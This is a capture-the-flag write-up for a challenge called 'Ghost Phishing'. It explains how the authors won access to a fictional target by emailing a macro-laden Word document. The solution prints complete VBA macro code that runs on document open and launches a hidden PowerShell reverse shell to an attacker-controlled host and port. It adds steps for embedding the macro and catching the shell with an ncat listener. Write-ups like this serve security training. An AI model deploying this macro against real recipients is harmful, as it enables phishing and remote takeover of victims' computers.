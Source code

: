 # Ghost Phishing
## Challenge

We have successfully gained access to DarkSpecter's email, and this leak contains a direct connection to Cipher's latest operations. 
Within the encrypted exchanges are invaluable intelligence: Information on recent attacks, compromised systems, and which might be the next target. 
This could be our best chance to forecast Cipher's next move and dismantle his network once and for all. 

__Username:__ specter@darknetmail.corp
__Password:__ YouCantCatchMe

## Solution

When opened the DarkSpecter's email we are faced with the following:

![image](https://github.com/user-attachments/assets/8c63920d-05d8-4da1-9aac-5d020efade72)

So the first thing we did was send an simple document (txt) with a attack report and asking for a password to see what cipher responds. The response was this:

![image](https://github.com/user-attachments/assets/45925a5e-b7ee-40ec-88c0-e86ff63a8eb8)

After multiple tries, we search a bit about what could be done with docx and docm documents. We found that it is possible, using macros, do a reverse shell.
Basically, when cipher opens the document, it will run a piece of code that will connect to our machine. For this we need to activate the macros in Word. 
>File -> Options -> Customize Ribbon -> Enable Developer Options in the Right Pane.
After this, we need to create our macro code. The code is the following:

```vba
Sub AutoOpen()
MyMacro
End Sub

Sub Document_Open()
MyMacro
End Sub

Sub MyMacro()
Dim Str As String
Str = "powershell -nop -w hidden -noni -c ""$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"""
CreateObject("Wscript.Shell").Run Str
End Sub
```

Where it is <LHOST> and <LPORT> we put our local ip and port. 
Now for the macro work we need to do the following thing:

- Go to Developer on the menu above and select Macros.
- We need to make sure that we are creating the macro in the document we want to send. (We were struggling a bit because we were saving in other location and, because of that, we weren't managing to get a reverse shell ;( )
![image](https://github.com/user-attachments/assets/fa1de5c6-a015-45bd-83aa-139bfae30753)
- Click in create and copy and paste the code above and save.
![image](https://github.com/user-attachments/assets/cd413d35-3f42-4368-a6f5-2b18d27607d5)
- After this close the window and save the document.

After this we have our macro ready to go. We send the email with the document attached and wait for cipher make this mistake of opening it. Before sending it we need to set up a listener in our machine.
Using ncat for that:

![image](https://github.com/user-attachments/assets/4d8b02bb-38f0-4de6-93c9-ec2f6c2424c2)

Finally, we send the document in the attachments and wait for the connection.

![image](https://github.com/user-attachments/assets/44ccaa24-ec05-4b3f-bcdd-a2b0600b9109)

Now the easy part, search for the flag. It is said that we need the Administrator flag. So we looked in Administrator user and found the flag in the Desktop directory.

![image](https://github.com/user-attachments/assets/6bca2a49-26af-42ee-9e3a-b2561898ae85)
